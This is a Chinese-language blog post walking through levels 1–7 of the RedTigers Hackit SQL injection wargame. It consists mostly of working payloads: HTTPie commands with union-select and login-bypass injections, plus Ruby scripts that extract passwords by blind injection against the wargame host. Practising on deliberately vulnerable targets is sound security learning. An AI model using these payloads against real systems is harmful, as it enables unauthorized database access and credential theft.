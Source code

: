 ```yaml
---
layout: post
title: RedTigers Hackit Wargame - Level 1 ~ Level 7
author: MaskRay
tags: [security, wargame]
---
```


[RedTigers Hackit](http://redtiger.dyndns.org/hackit/)是關於PHP和SQL injection的wargame。

又開始做wargame了，這次的進步是用上了[HTTPie](http://httpie.org)，一個類似`curl`的工具，但語法比後者優雅一些。

<!-- more -->

## 1

```bash
http get 'http://redtiger.dyndns.org/hackit/level1.php' cat=='1 union select 1,2,username,password from level1_users'
```

## 2

指定`--session`選項就可以實現cookie jar功能了，請求時會發送`Cookie`首部，也會保存服務端發來的`Set-Cookie`首部，而`curl`裏實現同樣的同能需要指定`-b c -c c`。

```bash
http --session=./c -f post 'http://redtiger.dyndns.org/hackit/level2.php' username="' or 2='2" password="' or 2='2" login=Login
```

## 3

```bash
http --session=./c -f post 'http://redtiger.dyndns.org/hackit/level3.php' 'usr[]=='
```

報錯：

```
Warning: preg_match() expects parameter 2 to be string, array given in /var/www/hackit/urlcrypt.inc on line 21
```

可以下載這個文件：

```bash
http --session=./c get 'http://redtiger.dyndns.org/hackit/urlcrypt.inc' --download
```

猜測`usr`字段被用來做SQL查詢了：

```bash
http --session=./c get 'http://redtiger.dyndns.org/hackit/level3.php' usr==$(php urlcrypt.inc "' union select 1,username,3,4,5,password,7 from level3_users where username='Admin' -- ")
```

## 4

Blind SQL injection，二分搜索枚舉每個位置的字符：

```ruby
require 'net/http'

ans = '*' * 17
worker = ->from, to {
  Net::HTTP.start('redtiger.dyndns.org') {|http|
    u = URI '/hackit/level4.php'
    (from...to).each {|pos|
      l = 32
      h = 126
      while l < h
        m = (l + h) / 2
        u.query = URI.encode_www_form id: "1 and if((select ord(mid(keyword,#{pos+1},1)))>#{m},1,0)"
        res = http.get(u.to_s, 'Cookie'=> 'level4login=****************').body
        #p res
        if res !~ /Query returned 0 rows/
          l = m + 1
        else
          h = m
        end
      end
      ans[pos] = l.chr
    }
  }
}
worker[0,17]
puts ans
```

## 5

```bash
pass=$(echo -n a | md5sum)
http --session=./c -f post 'http://redtiger.dyndns.org/hackit/level5.php?mode=login' username="' union select 1,'$pass" password=a login=Login
```

## 6

先確定SQL返回結果有5列，然後填充`Admin`：

```bash
http --session=./c 'http://redtiger.dyndns.org/hackit/level6.php' user=="0 union select 1,'Admin',3,4,5"
```

報錯：`Warning: mysql_fetch_object(): supplied argument is not a valid MySQL result resource in /var/www/hackit/level6.php on line 27`。

利用MySQL中xexadecimal literal默認爲字符串的性質，嘗試：

```bash
http --session=./c 'http://redtiger.dyndns.org/hackit/level6.php' user=="0 union select 1,0x61646d696e,3,4,5"
```

猜測第二列被用來做查詢了：

```bash
a=$(echo -n "' union select 1,username,3,password,5 from level6_users where status=1-- " | rax2 -S)
http --session=./c 'http://redtiger.dyndns.org/hackit/level6.php' user=="0 union select 1,0x$a,3,4,5"
```

## 7

```bash
http --session=./c -f post 'http://redtiger.dyndns.org/hackit/level7.php' search="xxx'" dosearch='search!'
```

觸發錯誤信息，瞭解到查詢用的SQL：

```sql
SELECT news.*,text.text,text.title FROM level7_news news, level7_texts text WHERE text.id = news.id AND (text.text LIKE '%#{serach}%' OR text.title LIKE '%#{search}%')
```

嘗試發現比較運算符及`substr`、`mid`、`left`等很多字符串函數被過濾了。枚舉得出`news.autor`的長度：

```bash
http --session=./c -f post 'http://redtiger.dyndns.org/hackit/level7.php' search="Google%' and length(news.autor)=17 and '%'='" dosearch='search!'
```

發現`locate`函數沒有過濾，找出`news.autor`中出現過的字符：

```ruby
Net::HTTP.start('redtiger.dyndns.org') {|http|
  u = URI '/hackit/level7.php'
  [('a'..'z').to_a,('0'..'9').to_a].flatten.each {|c|
    post = Net::HTTP::Post.new u.to_s
    post.set_form_data dosearch: 'search!', search: "Google%' and locate('#{c}',news.autor)=0 and '%'='"
    post['Cookie'] = 'level7login=dont_shout_at_your_disks%2A%2A%2A'
    puts c if http.request(post).body !~ /Geolocation/
  }
}
```

得到這些：`efglorstu0`。然後開始枚舉17位密碼中每一位的字符：

```ruby
u = URI '/hackit/level7.php'
w = ''

Net::HTTP.start('redtiger.dyndns.org') {|http|
  while w.size < 17
    'efglorstu0'.chars {|c|
      post = Net::HTTP::Post.new u.to_s
      post.set_form_data dosearch: 'search!', search: "Google%' and locate('#{w}#{c}',news.autor)=1 and '%'='"
      post['Cookie'] = 'level7login=***********'
      res = http.request(post).body
      if res =~ /Geolocation/
        w << c
        puts w
      end
    }
  end
}
```

得到了密碼，但是

```bash
http --session=./c -f post 'http://redtiger.dyndns.org/hackit/level7.php' username='*****************' try='Check!'
```

提示不正確……錯在哪裏了啊
